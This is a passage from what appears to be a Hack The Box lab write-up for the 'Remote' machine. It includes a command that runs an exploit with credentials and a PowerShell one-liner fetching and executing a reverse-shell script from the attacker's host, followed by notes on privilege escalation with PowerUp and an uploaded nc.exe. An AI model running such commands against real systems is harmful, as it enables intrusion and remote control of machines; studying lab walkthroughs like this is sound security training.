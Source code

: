 Its time to run the exploit:

```bash
python exploit.py -u admin@htb.local -p baconandcheese -i 'http://10.10.10.180' -c powershell.exe -a "IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.6:8000/Invoke-PowerShellTcp.ps1')"
```

![https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-remote/Screenshot_2020-04-24_11-34-27.png](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-remote/Screenshot_2020-04-24_11-34-27.png)

We got the shell. And user flag is in `C:\Users\Public`

## Privilege Escalation

Uploaded [Powerup](https://github.com/PowerShellEmpire/PowerTools/blob/master/PowerUp/PowerUp.ps1) to the machine. Found something Interesting.

![https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-remote/Untitled%205.png](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-remote/Untitled%205.png)

There is a CVE available for this service, you can refer [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md#example-with-windows-10---cve-2019-1322-usosvc) or you can also the PowerUP AbuseFunction command to abuse it.

By Following it, Uploaded `nc.exe` to the box.
